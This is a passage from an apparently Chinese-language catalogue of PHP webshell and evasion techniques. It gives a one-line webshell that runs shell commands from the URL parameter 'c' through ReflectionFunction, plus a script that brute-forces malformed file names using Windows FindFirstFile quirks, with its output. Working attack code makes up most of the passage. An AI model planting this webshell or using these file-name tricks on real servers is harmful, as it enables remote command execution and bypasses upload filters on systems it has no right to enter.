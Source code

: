 > http://www.cnblogs.com/52cik/p/php-phpdp-thinking.html\
> http://www.phpdp.org/\
> http://www.zhaoyuanma.com/phpencode.html

### 0x35: 利用ReflectionFunction[\[1\]](http://php.net/manual/zh/class.reflectionfunction.php)[\[2\]](http://php.net/manual/zh/reflectionfunction.invokeargs.php)反射进行动态函数执行&#x20;

```php
<?php
    $func = new ReflectionFunction("system");
    echo $func->invokeArgs(array("$_GET[c]"));
?>
```

### &#x20;0x36: 基于Winapi 函数FindFirstFile()导致的畸形文件名

```php
https://code.google.com/p/pasc2at/wiki/SimplifiedChinese
http://www.2cto.com/Article/201407/320879.html
可以利用下面的脚本来生成一个"畸形文件名"
<?php
    for ($j=0; $j<256; $j++) 
    {
        for ($i=0; $i<256; $i++) 
        {
            /*
            确保在当前目录下有一个"1.php"文件
            */
            $url = '1.p' . chr($j) . chr($i);
            $tmp = @file_get_contents($url);
            if (!empty($tmp)) 
            {
                echo "1.p" . chr($j) . chr($i) . "
";
            }
        }
    }
?>



```

result(得到的结果):&#x20;

1.p>< \
1.p>> \
1.p>P \
1.p>p \
1.pH< \
1.pH> \
1.pHP \
1.pHp \
1.ph< \
1.ph> \
1.phP \
1.php \
1.p< \
1.p<" \
1.p<. \
1.p<< \
1.p<>
